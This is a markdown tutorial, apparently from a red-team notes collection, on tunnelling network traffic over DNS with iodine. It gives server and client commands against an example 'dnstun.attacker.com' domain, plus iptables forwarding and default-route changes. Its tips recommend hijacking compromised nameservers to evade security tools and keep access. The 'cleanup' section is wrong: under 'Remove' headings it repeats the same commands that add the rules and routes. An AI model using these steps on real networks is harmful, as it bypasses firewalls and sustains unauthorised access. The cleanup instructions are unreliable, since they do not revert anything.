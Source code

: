 # Iodine

## Setup

### Package Manager

Install it according to your package manager.

```
$ sudo apt install -y iodine

$ sudo dnf install -y iodine

$ sudo pacman -S --noconfirm iodine
```

### Universal Install

```
$ git clone https://github.com/yarrick/iodine && cd iodine \
sudo make install
```

## Server

> [!TIP] Hijack DNS Nameserver (OPSEC Consideration)
> Compromised DNS namserver can be used to maintain access and evade security endpoints due to it's legitimacy.

Once you've setup a domain nameserver for your own server. Perform a quick DNS network diagnostic to see if the subdomain is present.

```
$ dig NS <VPS_IP>
```

Once it's confirmed create a new DNS network tunnel.

```
# iodined -f -c -P <password> <new_tunnel_IP> subdomain.domain.tld
```

Here's an example.

```
# iodined -f -c -P password123 10.0.0.1 dnstun.attacker.com
```

You'll see a new network interface has been created.

```
$ ip address show dns0
```

> [!NOTE]
> This step isn't necessary unless your own VPS provider requires you to use firewall rules to open ports.

Create a firewall rule to route the DNS traffic.

```
# echo 1 > /proc/sys/net/ipv4/ip_forward
iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
iptables -A FORWARD -i eth0 -o dns0 -m state --state RELATED,ESTABLISHED -j ACCEPT
iptables -A FORWARD -i dns0 -o eth0 -j ACCEPT
```

Run the packet analyzer to listen for any incoming connections.

> [!NOTE]
> This step is also not necessary since it can confirm that it is being tunneled.
> > [!TIP]
> > However, it can be used to monitor incoming traffic when deploying an automated script from the client-side.

```
# tcpdump -i eth0 udp port 53
```

## Client

> [!TIP] Establishing/Maintaining Access
> An automated script can be used to deploy with multiple subdomains of DNS nameservers to maintain access or establishing the initial foothold.

```
# iodine -f -P <password> subdomain.domain.tld
```

You'll see a new network interface has been created.

```
$ ip address show dns0
```

> [!NOTE]
> This step isn't necessary unless the client-side is experiencing problems with the networking route that may require manual configuration.

Create a new network route.

```
# ip route add 0.0.0.0/0 gw <new_tunnel_IP>
ip route add default via <new_tunnel_IP>
```

Here's an example.

```
# ip route add 0.0.0.0/0 gw 10.0.0.1
ip route add default via 10.0.0.1
```

## Cleanup and Revert Settings

### Remove Firewall Rules

TODO: Add a clean up section

```
# echo 1 > /proc/sys/net/ipv4/ip_forward
iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
iptables -A FORWARD -i eth0 -o dns0 -m state --state RELATED,ESTABLISHED -j ACCEPT
iptables -A FORWARD -i dns0 -o eth0 -j ACCEPT
```

### Remove Route Network

```
# ip route add <VPS_IP> gw <new_tunnel_IP>
ip route add default via <new_tunnel_IP>
```

---
## References

### Backlinks

- [[TCPDump]]

### Source Repositories

- [yarrick: `iodine`](https://github.com/yarrick/iodine)

### Iodine

- [iodine](https://code.kryo.se/iodine/)

### David Hamann

- [David Hamann: Tunneling network traffic over DNS with Iodine and a SSH SOCKS proxy](https://davidhamann.de/2019/05/12/tunnel-traffic-over-dns-ssh/)

### HaXeZ

- [HaXeZ: Firewall Evasion with DNS Tunneling](https://haxez.org/firewall-evasion-with-dns-tunneling/)